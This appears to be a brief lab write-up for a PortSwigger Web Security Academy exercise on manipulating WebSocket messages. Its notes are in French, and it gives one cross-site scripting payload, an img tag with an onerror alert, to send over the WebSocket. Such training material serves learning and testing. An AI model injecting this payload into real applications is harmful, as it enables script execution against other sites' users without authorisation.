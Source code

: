 # Lab

https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities

## Payload

Envoyer via WebSocket : `<img src=x onerror=alert()>`